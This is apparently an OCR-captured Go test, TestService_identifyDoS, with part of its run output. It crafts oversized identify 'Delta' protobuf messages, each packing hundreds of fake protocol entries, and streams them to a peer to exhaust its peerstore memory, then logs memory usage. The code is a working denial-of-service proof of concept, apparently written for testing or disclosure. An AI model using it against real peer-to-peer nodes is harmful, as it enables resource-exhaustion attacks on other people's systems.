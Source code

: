 	// limit (excl varint prefix) is 2048 bytes. Stay under that, then repeat with new stream.
	data := [2 + 3 + 2040]byte{
		// 0, 1: protobuf length prefix
		2: 0x3a, // the "Delta" field
		3: 0xf8, 0x0f, // the length varint
		// on repeat 340 times: 0x0a (the "AddedProtocols" field), 0x04 to encode length, then 4 bytes content
	}
	binary.PutUvarint(data[0:2], uint64(2043))
	for i := 2 + 3; i < len(data); i += 2 + 4 {
		data[i] = 0x0a
		data[i+1] = 0x04
	}
	// 2048 bytes per message limit, 3 starting data, 4 + 2 bytes per msg = 340 messages

	j := uint32(0)
	for i := uint64(0); i < msgCount; i++ {
		// start at contents of first protocol
		for x := 2 + 3 + 2; x < len(data); x += 2 + 4 {
			binary.LittleEndian.PutUint32(data[x:], j)
			j++
		}
		ds, err := hB.NewStream(ctx, hAid, identify.IDDelta)
		require.NoError(t, err)
		n, err := ds.Write(data[:])
		require.NoError(t, err)
		require.Equal(t, n, 2045)
		require.NoError(t, ds.Close())
	}

	// we need to wait until host A receives the malicious deltas of host B.
	time.Sleep(10 * time.Second)
	t.Log("after attack, peerstore memory is:\n", memsize.Scan(hA.Peerstore()).Report())
	protocols, err := hA.Peerstore().GetProtocols(hBid)
	require.NoError(t, err)
	t.Logf("host A knows %d protocols of host B", len(protocols))
	// protocolsPerMsg * msgCount, plus some default protocols (ping, identify, etc.)
	expected := 40 * msgCount
	if uint64(len(protocols)) < 3 {
		t.Fatalf("expected %d protocols to be registered", expected)
	}
	t.Logf("est. encoded bandwidth (ignore encryption, mplex overhead) cost is: %d bytes", uint64(len(data))*msgCount)
}
Output:

=== RUN   TestService_identifyDoS
    id_test.go:1041: before attack, peerstore memory is:
         ALL                           548  32.311 KB
        pstoremem.addrSegment         256  10.289 KB
        pstoremem.protoSegment        256   8.154 KB
        big.Int                         9   4.344 KB
        crypto.RsaPublicKey             4   2.355 KB
        pstoremem.memoryProtoBook       1   2.227 KB
        pstoremem.memoryAddrBook        1   2.031 KB
        record.Envelope                 2   1.395 KB
        pstoremem.memoryPeerMetadata    1      470 B
        pstoremem.memoryKeyBook         1      238 B
        peer.PeerRecord                 2      196 B
        multiaddr.multiaddr             4      128 B
        crypto.RsaPrivateKey            1      112 B
        time.Location                   1      104 B
        pstoremem.expiringAddr          2       96 B
        context.cancelCtx               1       56 B
        pstoremem.pstoremem             1       48 B